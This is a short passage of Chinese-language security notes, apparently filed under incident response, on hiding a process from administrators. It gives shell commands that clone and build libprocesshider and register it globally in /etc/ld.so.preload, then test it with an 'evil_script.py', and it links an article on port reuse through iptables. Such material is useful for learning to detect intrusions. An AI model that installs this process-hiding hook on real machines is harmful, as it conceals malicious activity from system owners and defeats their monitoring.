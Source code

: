 ![privilege-2-4.png](../../_img\05-应急响应/1656919349681-6921a3c6-f2bd-4e5d-a764-fa6912e285b4.png)
具体文章详见：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)


# 0x07 进程隐藏
管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。

第一种方法：libprocesshider<br />github项目地址：[https://github.com/gianlucaborello/libprocesshider](https://github.com/gianlucaborello/libprocesshider)

利用 LD_PRELOAD 来实现系统函数的劫持，实现如下
```
# 下载程序编译
git clone https://github.com/gianlucaborello/libprocesshider.git
cd libprocesshider/ && make
# 移动文件到/usr/local/lib/目录下
cp libprocesshider.so /usr/local/lib/
# 把它加载到全局动态连接局
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

测试：运行 evil_script.py，<br />![privilege-2-5.png](../../_img\05-应急响应/1656919368972-0860be60-7f6e-4a67-af84-3770ddbd6983.png)
